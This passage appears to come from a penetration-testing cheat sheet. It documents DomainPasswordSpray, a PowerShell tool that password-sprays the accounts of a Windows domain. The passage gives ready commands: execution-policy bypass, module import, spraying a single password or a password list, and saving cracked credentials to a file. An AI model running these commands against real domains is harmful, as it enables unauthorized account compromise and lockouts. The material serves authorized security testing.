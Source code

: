 ```
    ;; MSG SIZE  rcvd: 83
```

#### DomainPasswordSpray (Internal Windows Domain Password Brute Forcing)

Source: https://github.com/dafthack/DomainPasswordSpray

DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the userlist from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

##### Quick Start Guide

Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass'.

```
    Type 'Import-Module Invoke-DomainPasswordSpray.ps1'.
```

The only option necessary to perform a password spray is either -Password for a single password or -PasswordList to attempt multiple sprays. When using the -PasswordList option Invoke-DomainPasswordSpray will attempt to gather the account lockout observation window from the domain and limit sprays to one per observation window to avoid locking out accounts.

The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2016.

```
    PowerShell Invoke-DomainPasswordSpray -Password Winter2016
```

The following command will use the userlist at users.txt and try to authenticate to the domain "domain-name" using each password in the passlist.txt file one at a time. It will automatically attempt to detect the domain's lockout observation window and restrict sprays to one attempt during each window. The results of the spray will be output to a file called sprayed-creds.txt

```
    PowerShell Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

##### Invoke-DomainPasswordSpray Options

```
    UserList          - Optional UserList parameter. This will be generated automatically if not specified.
    Password          - A single password that will be used to perform the password spray.
    PasswordList      - A list of passwords one per line to use for the password spray (Be very careful not to lockout accounts).
    OutFile           - A file to output the results to.
    Domain            - A domain to spray against.
```

#### Misc Powershell Pasties

List Removeable Drives
